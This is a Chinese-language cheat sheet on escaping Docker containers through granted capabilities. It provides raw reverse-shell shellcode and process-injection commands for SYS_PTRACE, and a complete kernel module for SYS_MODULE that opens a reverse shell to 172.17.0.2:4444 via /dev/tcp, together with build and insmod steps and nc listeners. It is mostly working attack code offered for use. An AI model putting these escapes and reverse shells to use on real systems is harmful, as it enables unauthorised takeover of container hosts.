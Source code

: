 使用chroot在/mnt创建用户

```text
chroot /mnt/ adduser john
```

连接宿主机

```text
ssh john@172.17.0.1 -p 2222
```

**SYS\_PTRACE**

拥有SYS\_PTRACE权限可以通过进程注入达到逃逸  
查找HTTP服务器的PID  
ps -eaf

生成反弹shellcode

> \x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02 \x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x 0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x4 8\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05

进程注入程序：  
https://0x00sec.org/t/linux-infecting-running-processes/1097  
https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c

```bash
gcc inject.c -o inject
./inject 733
nc 172.17.0.1 5600
```

**SYS\_MODULE**

reverse.c

```c
#include <linux/kmod.h>#include <linux/module.h>char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/4444 0>&1", NULL};static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };static int __init reverse_shell_init(void) {    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Makefile

```c
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

insmod reverse-shell.ko
```
